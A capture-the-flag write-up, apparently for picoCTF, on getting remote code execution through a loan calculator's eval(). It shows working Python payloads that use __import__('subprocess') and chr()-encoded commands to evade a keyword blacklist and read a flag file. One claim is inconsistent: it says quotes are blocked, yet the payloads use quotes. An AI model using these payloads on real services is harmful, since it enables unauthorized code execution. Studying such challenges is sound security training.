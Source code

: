 # Challenge description

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

# Soluce

This challenge involved exploiting a loan calculator that dangerously used eval() on user input. However, the server implemented a strict blacklist to block common RCE keywords such as os, cat, ls, shell, stdout, and even the use of quotes (" and '). This made traditional payloads unusable. To bypass the restrictions, I leveraged the `__import__()` function to dynamically load the subprocess module and used `getoutput()` to execute shell commands. Since direct command strings were blocked, I constructed them using `chr()` and `bytes()` to avoid literal blacklisted words like "cat" or "ls". By dynamically assembling the string "cat /flag.txt" using character codes, I successfully executed it without triggering the filters. This method worked because the blacklist was based on raw string matching, and did not detect reconstructed values or function calls built at runtime.

So the first step is this:

```python
__import__('subprocess').getoutput(
  ''.join([chr(x) for x in [108,115,32,47]])
)
```

This command will execute `ls /` and return the result. We can see that there is a `flag.txt` file. Then we can read the content of the flag.txt file. We can use the command:

```python
__import__('subprocess').getoutput(
  ''.join([chr(x) for x in [99,97,116,32,47,102,108,97,103,46,116,120,116]])
)
```

The result will be:

```bash
Result: picoCTF{D0nt_Use_Unsecure_f@nctions3ce5e79c}
```

So the flag is `picoCTF{D0nt_Use_Unsecure_f@nctions3ce5e79c}`.